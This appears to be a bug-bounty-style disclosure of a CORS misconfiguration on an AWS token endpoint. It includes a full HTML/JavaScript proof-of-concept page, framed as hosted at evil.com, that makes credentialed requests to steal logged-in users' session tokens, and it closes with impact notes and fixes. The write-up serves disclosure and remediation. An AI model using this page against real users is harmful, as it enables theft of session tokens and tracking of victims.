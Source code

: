 # 🔓 CORS Misconfiguration on AWS (`vs.aws.amazon.com/token`)

## 👋 Hello Hackers!!! 

While testing the `vs.aws.amazon.com/token` endpoint, I discovered a
**CORS misconfiguration** that allows an attacker-controlled origin to
interact with sensitive AWS session and visitor tokens. The endpoint
reflects the `Origin` header and sets:

- `Access-Control-Allow-Origin: <attacker-controlled-origin>`  
- `Access-Control-Allow-Credentials: true`  

This combination makes it possible for any malicious website to steal
AWS tokens from logged-in users.

---

## ⚡ Steps to Reproduce

1. Log in to AWS in a web browser.  
2. Host or open a malicious HTML page (example:  
   `https://evil.com/poc.html`) with the following code:

```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS PoC</title>
  <style>
    body { font-family: monospace; padding: 20px; }
    button { padding: 8px 16px; margin-bottom: 12px; }
    pre {
      white-space: pre-wrap;   /* wrap long lines */
      word-wrap: break-word;   /* break long words */
      background: #111;
      color: #0f0;
      padding: 10px;
      border-radius: 5px;
    }
  </style>
</head>
<body>
  <button onclick="getToken()">Get Token</button>
  <pre id="output">— no response yet —</pre>

  <script>
    function getToken() {
      fetch("https://vs.aws.amazon.com/token", {
        method: "POST",
        credentials: "include", // include cookies
        headers: {
          "Content-Type": "application/json"
        },
        body: "{}"
      })
      .then(res => res.json())  // try JSON parse
      .then(data => {
        document.getElementById("output").innerText =
          JSON.stringify(data, null, 2); // formatted
      })
      .catch(async err => {
        try {
          let text = await err.text();
          document.getElementById("output").innerText = text;
        } catch {
          document.getElementById("output").innerText = "Error: " + err;
        }
      });
    }
  </script>
</body>
</html>
 
```
3. Visit the page while authenticated to AWS.
4. Click the Get AWS Token button.
5. Observe that the response returns sensitive session/visitor tokens
from vs.aws.amazon.com, even though the request originated from a
malicious site.

## 🖼️ Proof of Concept(PoC)
![IMG_9726](https://github.com/user-attachments/assets/7a0ade34-a585-4432-942f-d5941c0e8a5b)
![IMG_9727](https://github.com/user-attachments/assets/5dec2c3a-4fe1-43e4-a61c-880a29123c00)

## 🎯 Impact

- An attacker can exfiltrate AWS session/visitor tokens (awsd2c-token) from any logged-in user.
- These tokens are long-lived (Max-Age=31536000) and could be used to:
  - 🕵️ Track/correlate users across devices and services.
  - ⚠️ Potentially hijack sessions if combined with other weaknesses.
  - 🔑 Access metadata intended only for authenticated users.

**Severity: 🔴 Critical (CVSS 9.3)**

## 💡 Takeaways
- Even small misconfigurations (like reflecting Origin) can lead to serious credential leakage.
- Long-lived tokens increase the window of exploitation.
- CORS should always be restricted to trusted domains only — never dynamic reflection.
- Adding Access-Control-Allow-Credentials: true without strong origin checks is a red flag.

## ✅ Recommendation
- Do not dynamically reflect the Origin header.
- Restrict Access-Control-Allow-Origin to trusted domains only (e.g., https://aws.amazon.com).
- Avoid setting Access-Control-Allow-Credentials: true with untrusted origins.

**Signing off ✌️**

**[ROHAN S](https://www.linkedin.com/in/rohanscr7123/)** 

(**Aspiring Security Engineer**)




